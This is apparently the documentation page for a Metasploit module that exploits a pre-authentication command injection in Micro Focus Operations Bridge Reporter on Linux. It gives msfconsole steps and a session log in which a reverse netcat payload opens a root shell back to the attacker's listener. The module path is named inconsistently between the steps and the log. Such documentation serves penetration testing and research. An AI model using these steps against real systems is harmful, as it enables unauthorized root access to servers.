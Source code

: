 ## Vulnerable Application

This module exploits a command injection vulnerability on *login* (yes, you read that right) that affects Micro Focus Operations
Bridge Reporter on Linux, versions 10.40 and below.
It's a straight up command injection, with little escaping required and it works before authentication.
This module has been tested on the Linux 10.40 version. Older versions might be affected, check the advisory for details.

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Home

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.
This vulnerability only affects Linux installations.

All details about this vulnerability can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obr_cmd_injection`
4. `set payload PAYLOAD`
5. `set rhost TARGET`
6. `set lhost YOUR_IP`
7. `run`
8. You should get a shell.

## Scenarios

```
msf6 > use exploit/linux/http/microfocus_obr_cmd_injection
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set payload payload/cmd/unix/reverse_netcat
payload => cmd/unix/reverse_netcat
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set rhost 10.0.0.10
rhost => 10.0.0.10
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.10:21412 - Payload sent, now wait for Shelly, if she doesn't arrive try again!
[*] Command shell session 1 opened (10.0.0.1:4444 -> 10.0.0.10:51806) at 2021-04-23 20:57:02 +0700

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
